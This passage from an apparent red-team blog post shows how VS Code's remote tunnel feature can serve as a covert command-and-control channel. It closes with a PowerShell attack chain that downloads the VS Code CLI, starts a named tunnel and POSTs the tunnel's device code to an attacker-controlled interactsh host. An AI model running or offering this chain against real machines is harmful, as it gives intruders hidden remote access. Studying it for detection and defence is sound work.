 ```

* Access to the history
* Syntax highlighting
* Tab completion
* Job Control - Meaning interactive

It is a quite responsive good usable remote powershell session.

Beside the Powershell session there are some additional possibilities, like running a task, "Run and Debug" a file or we can do local port forwarding.


A nice feature is the installation of extensions on the remote host.

For example, we now can run some python scripts if the Python was installed on the main machine.
One caveat here is, that we need to save the file to disk, but there might be some ways around it.
![](/assets/media/Code_C2/Code_C2_5.png){:width="100%"}
*Running python via an remotly installed extension*


Connectiing via VSCode Desktop is straight forward, you just need the extension as stated in the official MS Blogpost.

## Build an attack chain

Lets try to build a complete attack chain.
First we should check, if we can get rid of the interactive part of starting the tunnel and provide the paramters on the commandline.

We can provide a name to get a fixed instance name for our session:
`.\code.exe tunnel --name itsmeC2V2`

Then there is the problem with the authentication.
Regarding [https://github.com/microsoft/vscode/issues/170013](https://github.com/microsoft/vscode/issues/170013) we must use a Github OAuth refresh token to authenticate.

I did not manage to get the Github OAuth token authentication working, so an additional step was necessay by posting the device code to a service like [https://app.interactsh.com/#/](https://app.interactsh.com/#/)

A very basic chain, without obfuscation might look something like this.
```powershell
cd C:\tmp #change folder
iwr -uri https://az764295.vo.msecnd.net/stable/97dec172d3256f8ca4bfb2143f3f76b503ca0534/vscode_cli_win32_x64_cli.zip -OutFile vscode.zip #download binary
Expand-Archive vscode.zip #Expand the zip
cd vscode
.\code.exe tunnel user logout #logout previous user, if existing
Start-Sleep 3
Start-Process -FilePath .\code.exe  -ArgumentList "tunnel --name Ooooopsie2000" -RedirectStandardOutput  .\output.txt #start tunnel and redirect the output to a txt file
Start-Sleep 3
iwr -uri cf8ryhj2vtc0000w93v0g8wcxjyyyyyyb.oast.fun -Method Post -Body (Get-Content .\output.txt) #Post output to interact.sh for the code
```
